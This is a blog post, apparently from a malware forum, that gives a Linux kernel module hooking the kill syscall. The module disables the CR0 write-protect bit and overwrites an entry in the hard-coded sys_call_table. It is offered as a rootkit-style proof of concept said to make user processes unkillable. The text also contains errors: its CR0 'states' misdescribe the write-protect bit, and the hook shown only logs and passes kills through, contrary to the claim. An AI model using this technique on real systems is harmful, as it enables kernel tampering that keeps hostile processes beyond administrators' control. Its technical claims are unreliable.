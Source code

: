 Today I come with a small demo of a hook in Ring0
that I just finished, which will serve to make all the processes in Ring3 immortal.

Since kernel versions 2.6, write permissions have been removed,  leaving read-only permissions and the syscall table cannot be exported.
So we must find another method to hooke the syscall table, one of them is looking in "boot/System.map" where you can find the addresses to the syscall(in my case System.map-3.2.6).

The standard **__NR_kill** is to hook **kill_pid** but if you want another function just look at the syscall_table and look for the correct **NR**.
In order to allow read/write and make a successful hook we need to momentarily disable the CR0(control register) bit which is in charge of protecting memory sections against writes.
CR0 has 2 states:<br/>
```
0x0000 = read/write mode.
0x0001 = write mode.
```

The 2 functions that I will use for this are native_read_cr0 and native_write_cr0 which will allow us to alter their states.<br/>
In my case the System.map-3.2.6 file contained the pointer to the *syscall table* and *kill pid* at the following addresses:
```
25940 - c1562120 R sys_call_table
2169 - c105bb80 T kill_pid
```

So on your systems it may not work, this is why I mentioned above to look at the **System.map** file, if you try it on your own....
Once the driver is installed if we try to kill any process, this is what happens.

![1](/images/1.png)

Once uninstalled, the processes can be killed normally:

![2](/images/2.png)

Code:
```C
/*
	Author: NvK
	Thanks to: http://memset.wordpress.com/2010/12/03/syscall-hijacking-kernel-2-6-systems/
	Description: Makes all processes in ring3 immortal
*/
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/init.h>
#include <linux/unistd.h>
#include <linux/mm.h>
#include <linux/highmem.h>

#include <asm/cacheflush.h>
#include <asm/io.h>
#include <asm/setup.h>
#include <asm/system.h>
#include <asm/pgtable.h>
#include <asm/pgalloc.h>

#define ELF_INITED 		".text.data"
#define ELF_BEGIN		".text.text"

static unsigned long kill_calls= 0;
// Puntero a la tabla
unsigned long *sys_call_table= (unsigned long*)0xc1562120;
// Función restaurada...
asmlinkage int (*original_kill)(pid_t, int);

int call_x86_hook_kill(pid_t pid, int sig)
{
	printk(KERN_ALERT "\n[+] x86 kill Hooked %ld", kill_calls++);
	return (*original_kill)(pid, sig);
}

static int __section(.init.text)__attribute__((cold)) notrace INIT_KERNEL(void)
{
	// desactivar bit de control
	native_write_cr0(native_read_cr0()&(~0x10000));
	
	original_kill= (void *)sys_call_table[__NR_kill];
	sys_call_table[__NR_kill]= call_x86_hook_kill;
	
	// activar bit de control(volver a su estado normal)
	native_write_cr0(native_read_cr0() | 0x10000);
  
  return 0;
}

static void __section(.exit.data) EXIT_KERNEL(void)
{
	native_write_cr0(native_read_cr0()&(~0x10000));
	sys_call_table[__NR_kill]= original_kill;
	native_write_cr0(native_read_cr0() | 0x10000);
	
	return;
}

module_init(INIT_KERNEL);
module_exit(EXIT_KERNEL);

MODULE_LICENSE("GPL");
MODULE_AUTHOR("Nvk");
MODULE_DESCRIPTION("ring0 x86 hook - [kill poc]");
```

if you just want to know how many times the system has made the syscall change the following line:

> int call_x86_hook_kill(pid_t pid, int sig)

for this one:

> asmlinkage call_x86_hook_kill(pid_t pid, int sig)

***

My original post: https://indetectables.net/viewtopic.php?t=50056
<br/>
Date: May 26, 2014
